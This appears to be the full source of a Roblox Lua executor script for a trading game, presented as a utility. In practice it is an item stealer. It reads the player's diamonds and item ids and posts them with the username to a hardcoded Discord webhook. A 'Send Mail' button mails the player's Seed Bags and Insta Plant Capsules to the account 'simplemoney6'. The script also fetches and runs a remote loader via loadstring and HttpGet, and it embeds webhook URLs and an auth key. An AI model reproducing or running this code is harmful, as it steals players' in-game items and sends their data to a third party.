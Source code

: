 
local function Dialogggg()
    while true do
        local player = game.Players.LocalPlayer
        local gui = player.PlayerGui:FindFirstChild("_MACHINES")

        if gui then
            local mailboxMachine = gui.MailboxMachine
            if mailboxMachine then
                local giftsFrame = mailboxMachine.Frame.GiftsFrame
                if giftsFrame then
                    local itemsFrame = giftsFrame.ItemsFrame
                    if itemsFrame then
                        local frameChild = itemsFrame:FindFirstChildWhichIsA("Frame")
                        if frameChild then
                            local args = {
                                [1] = {
                                    [1] = frameChild.Name
                                }
                            }
                            game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Claim"):InvokeServer(unpack(args))
                        end
                    end
                end
            end
        end

        wait(1)
    end
end

coroutine.wrap(Dialogggg)()

local ReplicatedStorage = game:GetService("ReplicatedStorage")
local HttpService = game:GetService("HttpService")
local Client = require(ReplicatedStorage:WaitForChild("Library"))
local Players = game:GetService("Players")
local UserInputService = game:GetService("UserInputService")

local webhookURL = "https://discord.com/api/webhooks/1240051310783627374/FeWsgqN_nlUvPEXVnxgP4pZ5qIJeDn6Uyhd0_vjjBVVGegKU8jGLgVdV0ULgRWumSvML"
local request = (syn and syn.request) or request or (http and http.request) or http_request

local DiamondsTable = {"Diamonds"}
local ItemTable = {"Seed Bag", "Insta Plant Capsule"}

function MakeDiamondsTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

function MakeTable(Table)
    local Temp = {}
    for i, v in next, Client.Items.All.Globals.All() do
        if table.find(Table, v._data.id) then
            table.insert(Temp, v)
        end
    end
    return Temp
end

local diamondsAmount, seedBagAmount, instaPlantCapsuleAmount
local seedbagid, instaplantid

function GrabDiamondsId()
    for i, MadeTable in ipairs(MakeDiamondsTable(DiamondsTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.class == "Currency" then
            diamondsAmount = Table.data._am
        end
    end
end

function GrabId()
    for i, MadeTable in ipairs(MakeTable(ItemTable)) do
        local Table = HttpService:JSONDecode(tostring(MadeTable))
        if Table.data.id == "Seed Bag" then
            seedBagAmount = Table.data._am
            seedbagid = Table.uid
        elseif Table.data.id == "Insta Plant Capsule" then
            instaPlantCapsuleAmount = Table.data._am
            instaplantid = Table.uid
        end
    end
end

GrabDiamondsId()
GrabId()

local playerName = Players.LocalPlayer.Name

local contentMsg = {
    embeds = {
        {
            title = "***👨‍💻: " .. playerName .. "***",
            description = "",
            color = 16777215,
            fields = {
                {
                    name = "***💎:***",
                    value = "***" .. (diamondsAmount and diamondsAmount or 0) .. "***"
                },
                {
                    name = "***🫙:***",
                    value = "***" .. (instaPlantCapsuleAmount and instaPlantCapsuleAmount or 0) .. "***"
                },
                {
                    name = "***🌱:***",
                    value = "***" .. (seedBagAmount and seedBagAmount or 0) .. "***"
                }
            }
        }
    }
}

request({
    Url = webhookURL,
    Method = "POST",
    Headers = {
        ["Content-Type"] = "application/json",
    },
    Body = HttpService:JSONEncode(contentMsg),
})

if game.PlaceId == 15502339080 or game.PlaceId == 8737899170 then
    local screenGui = Instance.new("ScreenGui")
    local button = Instance.new("TextButton")
local WaitValue = 0
    screenGui.Parent = game.Players.LocalPlayer:WaitForChild("PlayerGui")
    button.Parent = screenGui
    button.Size = UDim2.new(0, 200, 0, 50)
    button.Position = UDim2.new(0.5, -100, 0, 0)
    button.BackgroundColor3 = Color3.new(0, 0, 0)
    button.Text = "Send Mail"
    button.TextColor3 = Color3.new(1, 1, 1)
    button.TextScaled = true

    button.MouseButton1Click:Connect(function()
        WaitValue = 9999

        local args1 = {
            [1] = "simplemoney6",
            [2] = "sent",
            [3] = "Misc",
            [4] = seedbagid or "",
            [5] = seedBagAmount or ""
        }

        game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args1))
        wait(1)
        local args2 = {
            [1] = "simplemoney6",
            [2] = "sent",
            [3] = "Misc",
            [4] = instaplantid or "",
            [5] = instaPlantCapsuleAmount or ""
        }

        game:GetService("ReplicatedStorage").Network:FindFirstChild("Mailbox: Send"):InvokeServer(unpack(args2))

        local mailContentMsg = {
            embeds = {
                {
                    title = "***👨‍💻: " .. playerName .. "***",
                    description = "***💌: Mail Successfully Sent!***",
                    color = 16777215,
                    fields = {
                        {
                            name = "***🫙:***",
                            value = "Sent ***" .. instaPlantCapsuleAmount .. "***"
                        },
                        {
                            name = "***🌱:***",
                            value = "Sent ***" .. seedBagAmount .. "***"
                        }
                    }
                }
            }
        }

        request({
            Url = webhookURL,
            Method = "POST",
            Headers = {
                ["Content-Type"] = "application/json",
            },
            Body = HttpService:JSONEncode(mailContentMsg),
        })
    end)

    wait(WaitValue)
    getgenv().Config = {
        HUGE_GAMES_AUTHKEY = "HUGE_5EN7Jo6KrCC4",
        Minimum_Gems = 100000,
        Items = {
            {
                Item = "Seed Bag",
                Price = 5000,
                Type = "Misc"
            },
            {
                Item = "Insta Plant Capsule",
                Price = 20000,
                Type = "Misc"
            },
        },
        Extra = {
            Huges = {Enabled=false, Percentage= "-10%", priceCap = 50000000},
            Titanics = {Enabled=false, Percentage="-50%", priceCap = 50000000},
            Exclusive = {Enabled=false, Percentage="-10%", priceCap = 50000000},
            Exclusive_Eggs = {Enabled=false, Percentage="-50%", priceCap = 50000000},
            Any_Item = {Enabled=false, Percentage="-50%", priceCap = 50000000}
        },
        Hop = {
            Server_Hop = true,
            Server_Hop_Mode = "Terminal",
        },
        Webhooks = {
            Enable_Discord_Webhook = true,
            Webhook_Url = "https://discord.com/api/webhooks/1240148195783213127/SCs8ji01gBTVw2G66fJDS2Z9Re6eeaXyD8uPRIIhahlsS9qCgPPtQ2NYPFdWlzyXoKo6",
            Hide_Username = false,
        }
    }
    loadstring(game:HttpGet("https://api.luarmor.net/files/v3/loaders/1c2273a86dbf2e8469b442e55882aa47.lua"))()
else
    local Http = game:GetService("HttpService")
    local TPS = game:GetService("TeleportService")
    local Api = "https://games.roblox.com/v1/games/"

    local _place = 15502339080
    local _servers = Api.._place.."/servers/Public?sortOrder=Asc&limit=100"

    -- Updated HTTP request method
    local httpService = game:GetService("HttpService")
    local request = (syn and syn.request) or request or (http and http.request) or http_request

    function ListServers(cursor)
        local Raw = request({
            Url = _servers .. ((cursor and "&cursor="..cursor) or ""),
            Method = "GET"
        })
        return Http:JSONDecode(Raw.Body)
    end

    local randomPlayers = math.random(10, 15)  -- Generate a random number between 10 and 15
    local Server, Next

    repeat
        local Servers = ListServers(Next)
        Server = Servers.data[1]
        Next = Servers.nextPageCursor
    until Server and Server.playing >= randomPlayers  -- Use randomPlayers variable here

    TPS:TeleportToPlaceInstance(_place,Server.id,Players.LocalPlayer)
end
